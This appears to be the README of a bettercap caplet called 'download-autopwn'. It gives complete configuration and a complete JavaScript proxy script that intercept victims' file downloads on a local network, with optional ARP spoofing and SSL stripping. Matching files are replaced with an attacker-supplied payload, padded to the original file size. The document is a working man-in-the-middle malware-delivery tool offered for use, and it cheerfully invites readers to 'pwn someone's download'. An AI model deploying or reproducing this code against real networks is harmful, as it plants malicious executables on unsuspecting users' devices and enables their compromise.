 <p align="center"><img height="142px" src="https://cdn.rawgit.com/yungtravla/cdn/a5ec3cd7/github.com/bettercap/caplets/download-autopwn/dap.svg" /></p>


### caplets/download-autopwn.cap

Everything is configurable in the **download-autopwn.cap** file.

```sh
# documentation can be found at https://github.com/bettercap/caplets/blob/master/download-autopwn/README.md
# 
# this module lets you intercept very specific download requests and replaces the payload with one of your choice
#
# in order for a download to get intercepted:
#    1. the victim's user-agent string must match the downloadautopwn.useragent.x regexp value
#    2. the requested file must match one of the downloadautopwn.extensions.x file extensions
#
# you can find the downloadautopwn.devices in the caplets/download-autopwn/ folder (you can add your own)
#

# choose the devices from which downloads get pwned (enter the dir names of choice from caplets/download-autopwn/)
# (or feel free to add your own)
set downloadautopwn.devices android,ios,linux,macos,ps4,windows,xbox

# choose the regexp value that the victim's User-Agent has to match
# (feel free to add your own)
set downloadautopwn.useragent.android  Android
set downloadautopwn.useragent.ios      iPad|iPhone|iPod
set downloadautopwn.useragent.linux    Linux
set downloadautopwn.useragent.macos    Intel Mac OS X 10_
set downloadautopwn.useragent.ps4      PlayStation 4
set downloadautopwn.useragent.windows  Windows|WOW64
set downloadautopwn.useragent.xbox     Xbox

# choose which file extensions get intercepted and replaced by your payload on specific devices (payloads are in caplets/download-autopwn/.../)
# (again, you can add as many as you want)
# make sure the payload files exist and that they are all named "payload" (for example: payload.exe)
set downloadautopwn.extensions.android  apk,pdf,sh,pfx,zip
set downloadautopwn.extensions.ios      ipa,ios,ipb,ipsw,ipsx,ipcc,mobileconfig,pdf,zip
set downloadautopwn.extensions.linux    c,go,sh,py,rb,cr,pl,deb,pdf,jar,zip
set downloadautopwn.extensions.macos    app,dmg,doc,docx,jar,ai,ait,psd,pdf,c,go,sh,py,rb,pl,terminal,zip
set downloadautopwn.extensions.ps4      disc,pup,pdf,doc,docx,zip
set downloadautopwn.extensions.windows  exe,msi,bat,jar,dll,doc,docx,swf,psd,ai,ait,pdf,rar,zip
set downloadautopwn.extensions.xbox     exe,msi,jar,pdf,doc,docx,zip

# choose whether the proxy module resizes your payload to the requested file's size (if not set then default=false)
set downloadautopwn.resizepayloads true

# set download-autopwn.js as proxy script
set http.proxy.script caplets/download-autopwn.js
# uncomment if you want sslstrip enabled
# set http.proxy.sslstrip true
# start proxy
http.proxy on

# wait for everything to start properly
sleep 1

# uncomment if you want arp spoofing (make sure probing is off as it conflicts with arp spoofing)
# arp.spoof on
```

<br>

The `downloadautopwn.devices` variable accepts comma separated values. 
<br>
These values are the folder names inside the **caplets/download-autopwn/** directory.

<br>

The `downloadautopwn.useragent.x` variables accept a regular expression value (where `x` is the device name).
<br>
The victim's User-Agent string has to match this regex value.

<br>

The `downloadautopwn.extensions.x` variables accept comma separated file extensions that are present in the device's folder (where `x` is the device name).
<br>
These files must be present in the device's folder, and they must be called `payload` (for example: `payload.exe`).

<br>

The `downloadautopwn.resizepayloads` variable accepts a boolean value (default=false).
<br>
If this value is set to true, your payloads will be resized to match the requested file's size (unless your payload is bigger or equal to the requested file's size).

<br>

### caplets/download-autopwn.js

No changes should have to be made in the **download-autopwn.js** file.

```javascript
var targets = {}

var nullbyte = "\u0000"

var green   = "\033[32m",
    boldRed = "\033[1;31m",
    onRed   = "\033[41m",
    reset   = "\033[0m",
    redLine = "\n  " + onRed + " " + reset

function onLoad() {
	devices = env("downloadautopwn.devices").split(",")
	logStr = ""
	for (var i = 0; i < devices.length; i++) {
		item = {
			"device": devices[i],
			"useragent": env("downloadautopwn.useragent." + devices[i]),
			"extensions": env("downloadautopwn.extensions." + devices[i]).toLowerCase().split(",")
		}
		targets[i] = item
		logStr += "\n  " + green + targets[i]["device"] + reset +
		          "\n    User-Agent: " + targets[i]["useragent"] + 
		          "\n    Extensions: " + targets[i]["extensions"] + "\n"
	}
	log("Download Autopwn loaded.\n\nDownload Autopwn targets: \n" + logStr)
}

function onResponse(req, res) {
	// First of all check whether the requested path might have an extension (to save cpu)
	var requestedFileName = req.Path.replace(/.*\//g, "")
	if ( requestedFileName.indexOf(".") != -1 ) {
		var userAgent = req.GetHeader("User-Agent", ""),
		    extension,
		    headerCount = req.Headers.length
		// Iterate through targets
		for ( var t = 0; t < Object.keys(targets).length; t++ ) {
			// Check if User-Agent is a target
			regex = new RegExp(targets[t]["useragent"])
			if ( userAgent.match(regex) ) {
				// Iterate through target extensions
				for (var e = 0; e < targets[t]["extensions"].length; e++) {
					// Check if requested path contains a targeted extension
					// function endsWith() could be a nice simplification here
					if ( requestedFileName.replace(/.*\./g, "").toLowerCase() == targets[t]["extensions"][e] ) {
						extension = targets[t]["extensions"][e]
						// Autopwn
						logStr = "\n" + redLine + "  Autopwning download request from " + boldRed + req.Client + reset + 
						         redLine + 
						         redLine + "  Found " + boldRed + extension.toUpperCase() + reset + " extension in " + boldRed + req.Hostname + req.Path + reset + 
						         redLine + 
						         redLine + "  Grabbing " + boldRed + targets[t]["device"].toUpperCase() + reset + " payload..."
						// Check requested file size
						requestedFile = res.ReadBody()
						requestedFileSize = requestedFile.length
						payload = readFile("/usr/local/share/bettercap/caplets/download-autopwn/" + targets[t]["device"] + "/payload." + extension)
						payloadSize = payload.length
						logStr += redLine + "  The size of the requested file is " + boldRed + requestedFileSize + reset + " bytes" + 
						          redLine + "  The raw size of your payload is " + boldRed + payloadSize + reset + " bytes" + redLine
						// Append nullbytes to payload if resizing is enabled and if requested file is larger than payload
						if ( env("downloadautopwn.resizepayloads") == "true" && requestedFileSize > payloadSize ) {
							logStr += redLine + "  Resizing your payload to " + boldRed + requestedFileSize + reset + " bytes..."
							sizeDifference = requestedFileSize - payloadSize
							nullbyteString = Array(sizeDifference + 1).join(nullbyte)
							payload += nullbyteString
						}
						// Set Content-Disposition header to enforce file download instead of in-browser preview
						res.SetHeader("Content-Disposition", "attachment; filename=\"" + requestedFileName + "\"")
						// Update Content-Length header in case our payload is larger than the requested file
						res.SetHeader("Content-Length", payload.length)
						logStr += redLine + "  Serving your payload to " + boldRed + req.Client + reset + "...\n"
						log(logStr)
						res.Body = payload
					}
				}
			}
		}
	}
}
```

<br>

### Now you're all set to pwn!

#### What it looks like when you have configured a crazy amount of payloads

![screenshot 1](https://user-images.githubusercontent.com/29265684/37411166-e3796c46-27ed-11e8-94da-8e1c226a0dd3.png)

#### What it looks like when you pwn someone's download >:-)

![screenshot 2](https://user-images.githubusercontent.com/29265684/37409382-f6bb143e-27e9-11e8-86c5-c1c556900556.png)

Have fun!
